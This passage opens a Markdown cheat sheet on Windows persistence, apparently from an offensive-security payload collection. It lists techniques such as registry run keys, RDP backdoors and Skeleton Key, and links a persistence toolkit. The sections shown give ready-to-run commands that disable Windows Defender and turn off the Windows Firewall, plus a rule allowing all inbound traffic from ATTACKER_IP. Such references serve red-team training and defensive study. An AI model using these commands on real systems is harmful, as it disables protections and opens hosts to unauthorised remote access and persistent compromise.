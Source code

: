 # Windows - Persistence

## Summary

* [Tools](#tools)
* [Disable Windows Defender](#disable-windows-defender)
* [Disable Windows Firewall](#disable-windows-firewall)
* [Simple User](#simple-user)
  * [Registry HKCU](#registry-hkcu)
  * [Startup](#startup)
  * [Scheduled Task](#scheduled-task)
  * [BITS Jobs](#bits-jobs)
* [Serviceland](#serviceland)
  * [IIS](#iis)
  * [Windows Service](#windows-service)
* [Elevated](#elevated)
  * [Registry HKLM](#registry-hklm)
    * [Winlogon Helper DLL](#)
    * [GlobalFlag](#)
  * [Services](#services)
  * [Scheduled Task](#scheduled-task)
  * [Binary Replacement](#binary-replacement)
    * [Binary Replacement on Windows XP+](#binary-replacement-on-windows-xp)
    * [Binary Replacement on Windows 10+](#binary-replacement-on-windows-10)
  * [RDP Backdoor](#rdp-backdoor)
    * [utilman.exe](#utilman.exe)
    * [sethc.exe](#sethc.exe)
  * [Skeleton Key](#skeleton-key)
* [References](#references)

## Tools

- [SharPersist - Windows persistence toolkit written in C#. - @h4wkst3r](https://github.com/fireeye/SharPersist)

## Disable Windows Defender

```powershell
sc config WinDefend start= disabled
sc stop WinDefend
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Disable Windows Firewall

```powershell
Netsh Advfirewall show allprofiles
NetSh Advfirewall set allprofiles state off

# ip whitelisting
New-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress ATTACKER_IP
```
